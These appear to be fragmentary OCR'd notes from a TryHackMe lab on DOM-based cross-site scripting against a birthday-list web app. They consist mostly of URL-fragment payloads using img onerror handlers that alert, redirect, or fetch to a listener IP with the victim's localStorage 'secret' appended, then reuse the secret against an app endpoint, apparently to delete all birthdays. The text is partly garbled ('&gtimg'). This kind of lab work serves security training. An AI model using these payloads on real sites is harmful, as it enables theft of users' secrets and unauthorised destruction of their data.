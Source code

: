 how to delete all birthdays
-> to get to know `?secret=` value 
-> using DOM xss ? 

https://realwebsite.com#&gtimg src=1 onerror=alert(document.secret)></img>
=> checking the dom xss attack is working 
=> using this how to know the secret value ? 
document.secret? 

https://realwebsite.com#&gtimg src=1 onerror="fetch('http://10.10.104.193:8000?secret=' + localStorage.getItem('secret'))"></img>

&gtimg src=1 onerror="fetch('http://10.10.104.193:8000' + localStorage.getItem('secret'))">

https://realwebsite.com#&gtimg src = 1 onerror=alert(localStorage.getItem('secret'))>

https://realwebsite.com#&gtimg src=1 onerror=alert(panda)></img>


&gtimg src=1 onerror="window.location='http://lists.tryhackme.loc:5001/ping'">

&gtimg src=1 onerror="fetch('http://lists.tryhackme.loc:5173/bdays/45e358301c6946548b72d15c3e2ab797?secret=' + localStorage.getItem('secret'))">

http://lists.tryhackme.loc:5173/bdays/45e358301c6946548b72d15c3e2ab797?secret=
